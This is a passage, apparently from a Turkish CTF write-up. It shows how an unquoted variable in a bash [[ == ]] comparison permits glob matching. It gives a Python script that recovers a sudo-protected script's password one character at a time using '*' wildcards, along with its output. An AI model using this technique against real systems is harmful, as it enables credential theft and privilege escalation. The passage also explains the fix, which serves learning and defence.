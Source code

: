 ```text
SC2053 (warning): Quote the right-hand side of == in [[ ]] to prevent glob matching.
```

Uyarıyı ([SC2053](https://www.shellcheck.net/wiki/SC2053)) incelersek, IF kontrolünün sağında bulunan kısım tırnak içerisine alınmadığında Glob Matching durumunun oluşabileceği anlaşılır. Glob Matching, RegEx benzeri bir işlevsellik sunar.

!!! info "Glob Matching"

    Bu açığı kapatmak için değişken etrafında tırnak işaretleri (`"$USER_PASS"`) kullanılmalıydı.

Bu açıktan faydalanarak parolayı kaba kuvvet ile kırmayı deneyeceğiz. Bunun için aşağıdaki Python kodunu kullanacağız:

```python title="brute.py" linenums="1"
import subprocess
from string import ascii_letters, digits

password = ''
found = False

while not found:
    for char in ascii_letters + digits:
        cmd = f"echo '{password}{char}*' | sudo /opt/scripts/mysql-backup.sh"
        res = subprocess.run(cmd, shell=True, capture_output=True, text=True)
        if 'Password confirmed!' in res.stdout:
            password += char
            print(password)
            break
    else:
        found = True
```

Verilen kodun yaptığı işlemler şunlardır:

* Verilen karakterler için `*` wildcard kullanarak IF bloğunun True olup olmadığını kontrol eder.
* True olursa (`Password confirmed!`) parola değişkeni güncellenir.
* False olursa bir sonraki değer denenir.
* Tüm karakterler denendikten sonra parola bulunmuş olur.

Örneğin doğru parala `test1234` olsun. IF kontrolünün sağ kısmı `t*` olursa True elde edilir, böylece parola değişkeni `t` karakteri ile güncellenir. Ardından sırasıyla `te*`, `tes*` vs. denenir. Nihayetinde doğru parola elde edilir.

Parolayı kırmak için Python kodunu çalıştırdım:

```bash
python3 brute.py
```

```text title="Output" hl_lines="21"
k
kl
klj
kljh
kljh1
kljh12
kljh12k
kljh12k3
kljh12k3j
kljh12k3jh
kljh12k3jha
kljh12k3jhas
kljh12k3jhask
kljh12k3jhaskj
kljh12k3jhaskjh
kljh12k3jhaskjh1
kljh12k3jhaskjh12
kljh12k3jhaskjh12k
```